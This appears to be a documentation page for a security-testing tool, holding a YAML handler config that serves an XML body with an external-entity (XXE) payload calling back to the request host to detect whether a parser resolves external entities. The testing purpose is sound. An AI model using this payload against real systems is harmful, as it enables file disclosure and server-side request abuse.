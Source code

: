 ```yaml
---
title: XXE System
description: More XXE
weight: 1
pattern: /dt$
is_final: true
data:
  headers:
    Content-Type: text/xml
  body: |-
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://{{.Request.Host}}/{{ .NotifyString }}/xxe-test" >
    ]>
    <foo>&xxe;</foo>

---
```


### /dt

A vulnerable application for testing is in [../../../../cmd/xodbox-validator](../../../../cmd/xodbox-validator)

